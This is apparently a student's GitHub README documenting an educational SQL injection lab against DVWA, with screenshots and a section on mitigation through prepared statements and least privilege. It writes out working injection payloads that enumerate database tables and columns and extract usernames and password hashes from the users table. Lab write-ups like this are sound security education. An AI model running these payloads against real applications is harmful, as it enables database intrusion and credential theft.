










# DVWA SQL Injection Security Lab

<p align="center">
  
  
  
  
</p>

## 📌 Project Overview

This project is a controlled **SQL Injection security lab** performed against **Damn Vulnerable Web Application (DVWA)**.

The purpose is to understand how an intentionally vulnerable web application handles user input, how SQL Injection can expose database information in a controlled environment, and how secure development practices can mitigate the vulnerability.

The submitted report covers SQL Injection identification, database discovery, table/column enumeration, controlled exposure of password hashes, Medium-security testing, observations, and defensive mitigation.

> **Lab scope:** Educational testing against an intentionally vulnerable DVWA laboratory environment only.

---

## 🎯 Objectives

- Identify SQL Injection vulnerabilities.
- Understand SQL query manipulation.
- Test input handling in DVWA.
- Enumerate database information in the lab.
- Identify database tables and columns.
- Demonstrate sensitive-data exposure in the lab.
- Document security impact.
- Understand SQL Injection mitigation and secure coding.

---

## 🧪 Lab Environment

| Component | Configuration |
|---|---|
| Application | DVWA |
| Platform | XAMPP / Kali Linux |
| Browser | Firefox / Chrome |
| Database | MySQL |
| Initial Security Level | Low |
| Additional Test | Medium |
| Vulnerability | SQL Injection |

---

## 🏗️ Lab Architecture

```text
┌───────────────────────┐
│      Kali Linux       │
│  Security Test Client │
└───────────┬───────────┘
            │ HTTP
            ▼
┌───────────────────────┐
│     DVWA / XAMPP      │
│  Intentionally Vuln.  │
└───────────┬───────────┘
            │ SQL Query
            ▼
┌───────────────────────┐
│      MySQL Database   │
│       DVWA Data       │
└───────────────────────┘
```

---

# 🔬 How to Perform the Lab

The following workflow follows the activities documented in the submitted project report.

## Step 1 — Prepare DVWA

1. Set up DVWA in an isolated lab using XAMPP/Kali Linux.
2. Open DVWA in the browser.
3. Log in to DVWA.
4. Open **DVWA Security**.
5. Select **Low** security.
6. Open the **SQL Injection** module.

The report identifies the Low-security DVWA SQL Injection module as intentionally vulnerable.

---

## Step 2 — Initial SQL Injection Testing

Use the DVWA **User ID** field for controlled testing.

The report documents:

```sql
1' ORDER BY 1#
```

and:

```sql
1' OR '1'='1#
```

The purpose is to observe whether specially crafted input changes the application's SQL query behavior.

### 📸 Evidence



**Evidence:** `screenshots/SS01_Page02.png`

---

## Step 3 — Database Information Discovery

After confirming the vulnerability in the lab, the report documents database metadata discovery:

```sql
1' UNION SELECT version(), database()#
```

### Purpose

This demonstrates how SQL Injection can expose database version and database-name information when user input is not safely handled.

### 📸 Evidence



**Evidence:** `screenshots/SS02_Page02.png`

---

## Step 4 — Database Table Enumeration

The report documents table enumeration using database metadata:

```sql
1' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=database()#
```

### Purpose

Identify tables available in the active DVWA database.

### 📸 Evidence



**Evidence:** `screenshots/SS03_Page03.png`

---

## Step 5 — Users Table Column Enumeration

The report documents enumeration of the `users` table:

```sql
1' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users' AND table_schema=database()#
```

### Purpose

Identify fields associated with the `users` table.

### 📸 Evidence



**Evidence:** `screenshots/SS04_Page04.png`

---

## Step 6 — Credential-Hash Exposure

The report demonstrates exposure of usernames and password hashes in the intentionally vulnerable DVWA environment:

```sql
1' UNION SELECT user, password FROM users#
```

### Purpose

Demonstrate the potential impact of SQL Injection when sensitive database information is accessible.

### 📸 Evidence



**Evidence:** `screenshots/SS05_Page05.png`

> **Security note:** The values shown in this lab are DVWA training data. Never use extracted credentials or hashes against real systems or accounts.

---

## Step 7 — Formatted Credential Output

The report also documents a formatted output technique:

```sql
1' UNION SELECT CONCAT('User: ', user), CONCAT('Hash: ', password) FROM users#
```

### Purpose

Format the lab output so the username and corresponding hash are easier to read.

### 📸 Evidence



**Evidence:** `screenshots/SS06_Page06.png`

---

## Step 8 — Medium Security Testing

The report includes an additional test using **DVWA Medium security**.

The documented activity begins with:

```sql
1 ORDER BY 1#
```

The purpose is to compare application input handling at a different DVWA security level.

### 📸 Evidence



**Evidence:** `screenshots/SS07_Page07.png`

---

## Step 9 — Database Enumeration Observation

The report documents additional database-access and table-enumeration evidence:

```sql
1 UNION SELECT version(), database()#
```

and:

```sql
1 UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=database()#
```

### 📸 Evidence



**Evidence:** `screenshots/SS08_Page07.png`

---

## Step 10 — Supporting Evidence

The remaining screenshots are supporting evidence extracted from the submitted report and are retained separately for portfolio documentation.

### 📸 Evidence





---

# 📊 Key Findings

According to the submitted report:

- DVWA Low Security did not adequately sanitize input.
- The documented test inputs were processed by the vulnerable application.
- UNION-based SQL Injection enabled database-structure enumeration.
- Database tables and columns could be identified.
- Usernames and password hashes were exposed in the intentionally vulnerable environment.
- The exercise demonstrates the potential impact of SQL Injection when secure query handling is absent.

---

# 🛡️ Mitigation & Secure Coding

## 1. Prepared Statements

Use parameterized/prepared SQL statements instead of concatenating untrusted input into SQL queries.

## 2. Input Validation

Validate input according to expected type, length, format, and allowed values.

## 3. Least Privilege

Database accounts should have only the permissions required by the application.

## 4. Secure Error Handling

Do not expose SQL statements, database errors, stack traces, or internal database information.

## 5. Secure Stored Procedures

Where stored procedures are used, avoid unsafe dynamic SQL construction.

## 6. Web Application Firewall

A WAF can provide an additional defensive layer, but it should not replace secure application coding.

## 7. Security Testing

Perform regular authorized vulnerability assessments and penetration tests.

---

# 📁 Repository Structure

```text
dvwa-sql-injection-security-lab/
│
├── README.md
├── .gitignore
│
├── report/
│   └── DVWA-SQL-Injection-Lab-Report.pdf
│
├── screenshots/
│   ├── SS01_*.png
│   ├── SS02_*.png
│   ├── ...
│   ├── SS10_*.png
│   └── README.md
│
└── documentation/
    ├── findings.md
    └── mitigation.md
```

---

# 🧠 Skills Demonstrated

- Web Application Security
- SQL Injection fundamentals
- Manual vulnerability assessment
- UNION-based SQL Injection concepts
- Database enumeration
- MySQL security concepts
- DVWA laboratory usage
- Security evidence collection
- Vulnerability documentation
- Security mitigation
- Ethical hacking methodology

---

# ⚠️ Ethical & Legal Notice

DVWA is intentionally vulnerable and designed for security education.

Use these techniques only against:

- Your own systems
- Intentionally vulnerable training applications
- Systems for which you have explicit authorization

**Do not test real websites, databases, accounts, or infrastructure without permission.**

---

# 🚀 Future Improvements

- Test DVWA Medium and High security levels.
- Study Boolean-based Blind SQL Injection.
- Study Time-based Blind SQL Injection.
- Compare manual and authorized automated testing.
- Improve secure SQL coding practices.
- Study real-world SQL Injection incidents and mitigations.
- Develop a professional penetration-testing methodology.

---

# 📄 Project Report

Complete documentation:

**[`DVWA-SQL-Injection-Lab-Report.pdf`](report/DVWA-SQL-Injection-Lab-Report.pdf)**

---

## ⭐ Project Status

**Completed — Educational Security Lab**
